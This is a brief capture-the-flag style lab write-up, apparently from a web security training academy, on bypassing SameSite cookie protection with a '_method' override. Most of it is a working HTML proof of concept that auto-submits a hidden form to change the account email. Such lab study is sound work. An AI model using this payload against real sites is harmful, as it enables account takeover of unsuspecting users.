 # CSRF Lab 7: SameSite Bypass Method Overwrite

## Notes
Session: FJnPwoOJUkiHVDmywhY5JHDkGZvIu3tB

GET requests get denied so we have to make the inital request a POST.
    We can escape this by using the "_method" value in the framework to change it to POST.

## Exploit
```html
<html>
    <body>
        <form method="GET" action="https://0a97004e035e811a85a55f0900220015.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="pwned@ludicro.net">
            <input type="hidden" name="_method" value="POST">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>
```